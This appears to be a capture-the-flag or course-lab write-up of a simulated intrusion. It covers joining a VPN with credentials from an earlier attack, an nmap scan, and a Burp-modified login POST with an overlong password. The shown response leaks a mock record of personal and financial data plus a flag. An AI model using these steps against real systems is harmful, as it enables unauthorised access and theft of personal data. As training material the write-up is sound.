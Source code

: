 # Attack 4 - Buffer overflow

For this attack I exploited a vulnerability in one of the webpages which allowed me to perform a buffer overflow attack. This attack is executed in order to gain access to some confidential information used to gain further access to the system.

However, first I neede to connect to their network through a wireguard vpn. I installed wireguard and connected to their network by using Jonas Dahl's credentials which was found in the last attack. The wireguard configuration file used is located in this folder.

Once I was connected to the network I used the tool nmap in order to scan the address space 10.13.13.0/24 for open ports, and found the page 10.13.13.254:80 which eventually led me to a login page which seemed to be vulnerable to buffer overflow attacks. Using this knowledge i used burpsuite and modified the POST request in order to send the following large input in the password field:
```JavaScript
POST /login HTTP/1.1
Host: 10.13.13.254
Content-Length: 168

{"username":"jonas.dahl","password":"11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111"}
```
This allowed me to read arbitrary information in the form of a JSON list:
```json
{
  "name": "Jonas Dahl",
  "email": "jonas.dahl@regjeringen.no",
  "address": {
    "street": "Regjeringsgata 16",
    "city": "Oslo",
    "postal_code": "1111",
    "country": "Norway"
  },
  "phone": "+47 123 45 678",
  "birthdate": "1985-06-15",
  "gender": "Male",
  "national_id": "15068512345",
  "passport_number": "N12345678",
  "nationality": "Norwegian",
  "occupation": "Technical Officer",
  "company": {
    "name": "Regjeringen",
    "address": {
      "street": "Regjeringsgata 16",
      "city": "Oslo",
      "postal_code": "1111",
      "country": "Norway"
    },
    "phone": "+47 987 65 432",
    "industry": "Government",
    "position": "Technical Officer",
    "department": "Technical and Infrastructure",
    "start_date": "2010-05-01",
    "manager": "Ingrid Nilsen",
    "manger_username": "ingridnilsen"
  },
  "credit_card": {
    "type": "Visa",
    "number": "4111 2222 3333 4444",
    "expiration": "12/26",
    "cvv": "234",
    "cardholder_name": "Jonas Dahl"
  },
  "bank_account": {
    "bank_name": "Statens Bank",
    "account_number": "1234.56.78910",
    "iban": "NO1234567890123",
    "swift_bic": "STBANOXX"
  },
  "hidden_details": {
    "security_question": "Hva var navnet på din første lærer?",
    "security_answer": "Frøken Andersen",
    "pin": "5678",
    "mother_maiden_name": "Larsen"
  },
  "flag": "Dropbox is the flag :)",
  "dropbox": "https://dropbox.internal.regjeringen.uiaikt.no/"
}
```
As one can see, so does this contain a lot of sensitive information belonging to Jonas Dahl and some about his manager Ingrid Nilsen which can be used for other attacks. Additionally, so is there also an address for a new dropbox webpage which I can access in order to potentially execute another attack.






